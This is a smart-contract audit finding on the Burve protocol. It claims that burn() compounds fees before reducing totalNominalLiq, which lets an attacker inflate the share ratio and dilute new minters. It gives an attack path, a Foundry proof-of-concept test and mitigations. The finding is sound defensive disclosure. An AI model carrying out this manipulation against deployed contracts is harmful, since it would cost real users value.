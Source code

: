 Steep Taupe Gorilla

Medium

# Burn Calls Skew `totalNominalLiq` Allowing Share Value Manipulation

### Summary

Repeated `burn()` calls compound fees before reducing `totalNominalLiq`, artificially inflating its value. This allows attackers to manipulate the ratio of `totalNominalLiq / totalShares`, diluting future minters’ share value.

### Root Cause

In [Burve.sol:L350](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L350l) `compoundV3Ranges()` is called before burning shares. Any fees collected during compounding increase `totalNominalLiq`, while `totalShares` decreases. This skews the ratio used for share calculations in `mint()`.

### Internal Pre-conditions

Attacker holds shares to burn.

### External Pre-conditions

none

### Attack Path

1. Attacker repeatedly calls `burn(1 . .)`, triggering fee compounding.
2. Each burn increases `totalNominalLiq` via compounding before reducing it.
3. Ratio `totalNominalLiq / totalShares` rises, reducing shares minted per unit for new users.

### Impact

1. **Direct Loss:** New users receive fewer shares for the same `mintNominalLiq`.
2. **Protocol Fairness**: Manipulation of share valuation violates fair distribution.

### PoC

```solidity
function test_TotalNominalLiq_Incrase() public forkOnly {
    // Setup: Mint initial shares and accumulate fees
    uint128 deadLiq = 100;
    (, uint256 deadIslandShares) = deadShareMint(address(burveIsland), deadLiq);

    // User mints 10,000 shares
    uint128 liq = 10_000;
    IKodiakIsland island = burveIsland.island();
    (uint256 amount0, uint256 amount1) = getAmountsForLiquidity(liq, island.lowerTick(), island.upperTick(), true);
    (uint256 mint0, uint256 mint1, ) = island.getMintAmounts(amount0, amount1);

    // Simulate fee accumulation
    deal(address(token0), address(alice), mint0);
    deal(address(token1), address(alice), mint1);
    vm.startPrank(alice);
    token0.approve(address(burveIsland), mint0);
    token1.approve(address(burveIsland), mint1);
    burveIsland.mint(address(alice), liq, 0, type(uint128).max);
    vm.stopPrank();

    // Burn 1 share and observe totalNominalLiq increases
    uint256 totalNominalLiqBeforeBurn = burveIsland.totalNominalLiq();
    vm.startPrank(alice);
    burveIsland.burn(1, 0, type(uint128).max);
    uint256 totalNominalLiqAfterBurn = burveIsland.totalNominalLiq();

    // Assertion passes: totalNominalLiq increases after burn
    assertGt(totalNominalLiqAfterBurn, totalNominalLiqBeforeBurn);
}
```

### Mitigation

1. **Adjust Burn Order:** Call compoundV3Ranges() after reducing totalNominalLiq:
```solidity
function burn(...) external {
    // First reduce totalNominalLiq
    totalNominalLiq -= burnLiqNominal; 
    // Then compound fees (won't affect current burn)
    compoundV3Ranges(); 
    // ...
}
```
2. **Fee Compounding Throttle:** Limit compounding to once per block or epoch.